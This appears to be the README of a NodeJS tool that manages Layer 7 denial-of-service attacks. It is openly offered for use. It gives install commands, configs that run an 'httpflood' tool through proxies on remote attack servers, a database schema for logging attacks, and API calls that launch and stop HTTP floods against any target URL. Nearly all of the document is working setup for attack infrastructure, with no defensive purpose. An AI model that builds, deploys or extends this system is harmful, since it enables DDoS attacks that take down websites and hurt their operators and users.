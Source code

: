 <h2>NodeJS API Manager for Layer 7 attacks</h2>

<h3>Coded by forky (tg: @yfork)</h3>

<h4>This API is very secure and fast (takes 2x the ping between the API and the backend, i.e. the ping is 60ms it will take only 120ms to launch the attack)</h4>


<h1>Installation:</h1>

```sh
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -
sudo apt -y install nodejs
npm i express mysql
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "1": {
        "name": "1",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "2": {
        "name": "2",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt"
}
```

<h3>Update settings.json</h3><br>

```json
{
    "database": {
        "host": "localhost",
        "user": "DATABASE_USER",
        "password": "DATABASE_PASSWORD",
        "database": "DATABASE_NAME"
    },
    "socket_token": "SECRET_TOKEN", //your secret token to protect the TCP connection
    "max_attacksn": 15, //max attacks per server
    "api_port": 3000 //api port
}
```

<h3>Update client.js:</h3><br>

```js
const socket_port = 3000;
const socket_token = "SOCKET_TOKEN"; //your secret token to protect the TCP connection
const allowed_ips = ['1.1.1.1']; //the API server IP
```

<h3>Setup the Database</h3><br>

```sql
CREATE DATABASE manager;

use manager;

CREATE TABLE `attacks` (
    `id` int(11) NOT NULL,
    `server` varchar(300) DEFAULT NULL,
    `target` text DEFAULT NULL,
    `duration` int(11) NOT NULL,
    `method` varchar(255) DEFAULT NULL,
    `date_sent` int(11) DEFAULT NULL,
    `stopped` int(11) NOT NULL DEFAULT 0,
    `attack_id` int(11) DEFAULT NULL
);

ALTER TABLE `attacks` ADD PRIMARY KEY (`id`);

ALTER TABLE `attacks` MODIFY `id` int(11) NOT NULL AUTO_INCREMENT;
```

## After that, upload client.js to the attack servers and upload api.js, servers.json, commands.json and settings.json to the API server

### Reverse Proxy

Making a reverse proxy using Nginx to use your API is recommended:

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api {
        proxy_pass http://backend:3000/api;
    }
}
```

Replace `'http://backend:3000/api'` with your API server URL

### Using the API

Send a GET request to the API using the required fields

GET `https://api.yourdomain.com/api/attack?target=https://website.com&duration=120&method=HTTPGET&server=1`

You can stop the attacks by sending a GET request to the API using the attack ID

GET `https://api.yourdomain.com/api/stop?attack_id=[id]`

You can also stop all the attacks sending a GET request to the API

GET `https://api.yourdomain.com/api/stop_all`
